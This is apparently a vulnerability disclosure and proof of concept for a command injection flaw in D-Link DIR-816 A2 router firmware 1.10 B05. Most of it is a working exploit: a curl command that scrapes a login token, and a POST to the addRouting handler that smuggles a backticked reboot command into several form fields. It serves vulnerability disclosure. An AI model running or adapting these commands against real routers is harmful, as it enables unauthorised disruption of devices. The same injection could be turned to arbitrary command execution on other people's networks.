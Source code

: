 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: GD@hillstone

**Vendor Homepage**: http://www.dlink.com.cn/



## POC

first,get the token

`curl -s http://192.168.0.1/dir_login.asp | grep tokenid`

<input type="hidden" name="tokenid"  value="xxxx" >

then,we could send the crafted parameter along with the token to the route:

```
curl -i -X POST http://192.168.0.1/goform/addRouting -d tokenid=1804289383 -d 'dest=`reboot`' -d 'hostnet=`reboot`' -d 'netmask=`reboot`' -d 'gateway=`reboot`' -d 'interface=`reboot`' -d 'custom_interface=`reboot`'
```

final,the route will reboot.

